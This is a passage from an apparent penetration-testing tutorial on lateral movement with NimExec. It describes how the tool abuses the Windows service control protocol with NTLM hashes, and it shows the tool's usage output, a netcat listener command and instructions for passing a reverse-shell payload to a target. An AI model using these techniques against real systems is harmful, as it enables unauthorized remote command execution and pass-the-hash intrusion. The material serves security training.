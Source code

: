 PS C:\Windows\system32&gt;
</code></pre>
<h3>NimExec</h3>
<p><a href="https://github.com/frkngksl/NimExec">NimExec</a> is a fileless remote command execution tool that operates by exploiting the Service Control Manager Remote Protocol (MS-SCMR). Instead of using traditional <code>WinAPI</code> calls, <code>NimExec</code> manipulates the binary path of a specified or randomly selected service with LocalSystem privileges to execute a given command on the target machine and later restores the original configuration. This is achieved through custom-crafted RPC packets sent over <code>SMB</code> and the <code>svcctl</code> named pipe. Authentication is handled using an <code>NTLM</code> hash, which <code>NimExec</code> utilizes to complete the process via the <code>NTLM</code> Authentication method over its custom packets. By manually crafting the necessary network packets and avoiding OS-specific functions, this tool benefits from Nim's cross-compilation capabilities, making it versatile across different operating systems.</p>
<p>Running the tool without parameters give us some commands and descriptions to let us know how to use it.</p>
<pre><code class="language-powershell-session">PS C:\Tools&gt; .\NimExec.exe

                                                                                             _..._
                                                                                          .-'_..._''.
   _..._   .--. __  __   ___         __.....__                          __.....__       .' .'      '.\
 .'     '. |__||  |/  `.'   `.   .-''         '.                    .-''         '.    / .'
.   .-.   ..--.|   .-.  .-.   ' /     .-''"'-.  `.                 /     .-''"'-.  `. . '
|  '   '  ||  ||  |  |  |  |  |/     /________\   \ ____     _____/     /________\   \| |
|  |   |  ||  ||  |  |  |  |  ||                  |`.   \  .'    /|                  || |
|  |   |  ||  ||  |  |  |  |  |\    .-------------'  `.  `'    .' \    .-------------'. '
|  |   |  ||  ||  |  |  |  |  | \    '-.____...---.    '.    .'    \    '-.____...---. \ '.          .
|  |   |  ||__||__|  |__|  |__|  `.             .'     .'     `.    `.             .'   '. `._____.-'/
|  |   |  |                        `''-...... -'     .'  .'`.   `.    `''-...... -'       `-.______ /
|  |   |  |                                        .'   /    `.   `.                               `
'--'   '--'                                       '----'       '----'

                                            @R0h1rr1m


[!] Missing one or more arguments!
[!] Error unknown or missing parameters!

    -v | --verbose                          Enable more verbose output.
    -u | --username &lt;Username&gt;              Username for NTLM Authentication.*
    -h | --hash &lt;NTLM Hash&gt;                 NTLM password hash for NTLM Authentication.**
    -p | --password &lt;Password&gt;              Plaintext password.**
    -t | --target &lt;Target&gt;                  Lateral movement target.*
    -c | --command &lt;Command&gt;                Command to execute.*
    -d | --domain &lt;Domain&gt;                  Domain name for NTLM Authentication.
    -s | --service &lt;Service Name&gt;           Name of the service instead of a random one.
    --help                                  Show the help message.
</code></pre>
<p><code>Nimexec</code> works simillary to <code>SharpNoPSExec</code>. Let's start our listener using <code>Netcat</code>:</p>
<pre><code class="language-shell-session">[!bash!]$ nc -lvnp 8080
Listening on 0.0.0.0 8080
</code></pre>
<p>To execute <code>NimExec</code>, we must specify the administrator credentials with the options <code>-u &lt;user&gt;</code>, <code>-p &lt;password&gt;</code> and <code>-d &lt;domain&gt;</code>, and the target IP address <code>-t &lt;ip&gt;</code>. Alternatively, we can use the NTLM hash for authentication <code>-h &lt;NT hash&gt;</code> instead of the password. Finally, we must specify the payload to execute with the option <code>-c &lt;cmd.exe&gt; /c &lt;reverseShell&gt;</code>. We can generate the reverse shell payload using <a href="https://revshells.com">revshells.com</a>, and to convert the plain text password to NTLM hash, we can use this <a href="https://gchq.github.io/CyberChef/#recipe=NT_Hash()">recipe</a> in CyberChef.</p>
